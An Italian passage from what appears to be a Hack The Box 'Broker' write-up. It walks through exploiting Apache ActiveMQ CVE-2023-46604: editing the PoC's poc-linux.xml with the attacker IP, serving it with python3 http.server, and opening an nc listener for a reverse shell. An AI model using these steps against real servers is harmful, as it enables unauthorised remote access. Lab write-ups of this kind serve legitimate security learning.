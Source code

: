 Questa fa al caso nostro. Cerchiamo una PoC.

![Desktop View](/assets/img/broker/broker-CVE-Activemq-PoC.png)

### Exploit

Utilizziamo l'exploit:

Prima di tutto, dobbiamo modificare il file poc-linux.xml e modificare la riga numero 11 inserendo il nostro indirizzo IP.

![Desktop View](/assets/img/broker/broker-poc-linux-xml.png)

Poi, avviamo un server http con python3...

```shell
┌─[✗]─[dua2z3rr@parrot]─[~/Boxes/broker/CVE-2023-46604]
└──╼ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

... e una porta in ascolto per la reverse shell con nc.

```shell
┌─[dua2z3rr@parrot]─[~/Desktop]
└──╼ $nc -lnvp 9001
Listening on 0.0.0.0 9001
```
